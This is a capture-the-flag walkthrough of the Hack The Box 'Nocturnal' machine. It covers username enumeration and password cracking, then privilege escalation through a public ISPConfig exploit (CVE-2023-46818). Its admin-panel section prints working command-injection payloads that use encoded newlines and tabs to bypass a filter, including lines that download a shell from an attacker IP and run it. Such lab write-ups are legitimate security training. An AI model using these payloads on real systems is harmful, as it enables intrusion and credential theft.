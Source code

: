 # 👨‍💻 Hackt The Box - Nocturnal Walkthrough

* **Machine Type**: Linux
* **Solved by**: Akshat Nigam
* **Category**: Web Exploitation, Privilege Escalation
* **Difficulty**: Easy
* **Attack Surface**: Web Interface, Parameter Injection, Intranet Exposure

---

## Port Scan

```
nmap Nocturnal.htb -sV -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

## Web Interface

* Register a user, log in.
* Upload a file (e.g., .xlsx). here i have uploaded dangerous.xlsx

* Note the download URL format:

 ```
http://nocturnal.htb/view.php?username=abc&file=dangerous.xlsx
```




## Enumerating Usernames

```
ffuf -w /usr/share/wrodlists/seclists/Usernames/Names/names.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=dangerous.xlsx' \
-H 'Cookie: PHPSESSID=r9r2r5mvphpms3nnuk7gbl1i6n' -fs 2985

```

- Found valid users: `admin`, `amanda`, `tobias`
- Amanda's directory contained a file: `privacy.odt`
- File is a zip archive. Extract and find Amanda's password.

## Admin Panel Access
- Log in with Amanda's credentials.
- Create backup with password => Generates `.zip`
- Open BurpSuite capture the request, send it to the Repeater. 


* Filter can be bypassed using:

```
password=%0Abash%09-c%09"id"%0A&backup=
```

* Download remote shell using RFI:

```
password=%0Abash%09-c%09"wget%0910.xx.xx.xx/shell"%0A&backup=
password=%0Abash%09-c%09"bash%09shell"%0A&backup=
```
- Once you get into the shell, look for db file.
```
  nocturnal_database.db
```

- Get Tobias's hash from DB.

```
sqlite3 nocturnal_database.db
```

- Crack successfully to get Tobias's password.

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-Md5

```



## SSH into the system

```
ssh tobias@nocturnal 
```
---

## Privilege Escalation to Root

### Intranet Discovery

```
ss -tulnp
```

* Port 8080 open internally

```
ssh tobias@nocturnal.htb -L 8888:127.0.0.1:8080
```

* Found ISPConfig panel
* Inspect the HTML code of the website
* Likely version: `3.2`

### Exploit Used:

* CVE-2023-46818 - Code Injection in ISPConfig
* GitHub PoC: (https://github.com/ajdumanhug/CVE-2023-46818)

### Root Access

* Exploit or reuse credentials from Amanda/Tobias
* Success: Root shell acquired ✅

---

## Summary

* **User:** Exploited insecure parameter exposure to enumerate valid usernames. Dumped DB backup using Amanda's creds, cracked password hash to get Tobias.

* **Root:** Found local ISPConfig panel over port forwarding. Used public exploit (CVE-2023-46818) or password reuse to gain root access.

> Rooted `Nocturnal` 🌓
